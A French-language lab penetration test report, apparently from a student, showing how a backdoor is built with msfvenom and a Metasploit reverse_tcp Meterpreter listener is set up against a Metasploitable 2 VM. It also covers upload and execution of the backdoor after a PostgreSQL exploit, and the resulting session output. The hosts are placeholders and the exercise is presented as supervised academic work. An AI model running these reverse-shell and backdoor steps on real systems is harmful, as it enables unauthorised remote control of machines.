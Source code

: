 ## Rapport de Test d'Intrusion - Laboratoire Contrôlé
```
Auteur : FOGUE MICHELE
Date : 03 juillet 2025
Environnement : Local Lab (VM Kali Linux + Metasploitable 2.0)
```

## 1. Introduction
    • Objectif : Démontrer les étapes d'un contrôle d’un systeme par  backdoor.
    • Autorisation : Exercice académique sous supervision.
    • - msfvenom (version X.Y)
    • - Metasploit Framework
    • - Machine cible : Ubuntu 
# 2. Méthodologie
Étape 1 : Création du Payload (Backdoor)
    • Outil : msfvenom 
      msfvenom -p <OS>/<arch>/<payload_type> LHOST=<IP_LOCALE> LPORT=<PORT> -f <format> -o <fichier_sortie>
        ◦ Description :
            ▪ Génération d'un payload pour la cible (Ubuntu, architecture x86).
            ▪ Format de sortie .elf
            
# Étape 2 : Mise en place de l'Écouteur (Listener)
    • Outil : Metasploit (multi/handler)
        msf6 > use exploit/multi/handler
        msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
        
    • Paramétrage de l'Écouteur
```
      msf6 exploit(multi/handler) > set LHOST X.X.X.X
      msf6 exploit(multi/handler) > set LPORT PORT
      msf6 exploit(multi/handler) > run
	[*] Started reverse TCP handler on X.X.X.X:PORT
```
    
# Étape 3 : Exécution sur la Cible
    • Méthode de livraison 
          Vulnerabilité postgresql  exploitée à travers le payload postgresql_payload. Après obtention de shell meterpreter.
        ◦ Téléchargement du backdoor 
              upload /chemin/backdoor.elf
        ◦ Éxécution du backdoor.
              Chmod +x backdoor.elf   # Pour le backdoor rendre éxécutable
			./backdoor  	#Pour éxécuter le backdoor

    • Établissement de la Session
	Une fois le backdoor éxécuté sur la cible, la session est établie automatiquement
		[*] Started reverse TCP handler on X.X.X.X:PORT 
		[*] Sending stage (989032 bytes) to Y.Y.Y.Y
		[*] Meterpreter session 1 opened ( X.X.X.X:PORT -> Y.Y.Y.Y:PORT ) at X-Y-Z  

#Étape 4 : Exploitation & Post-Exploitation
    • Commandes exécutées :
        ◦ pwd
			/home/msfadmin
        ◦ sysinfo
			Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux

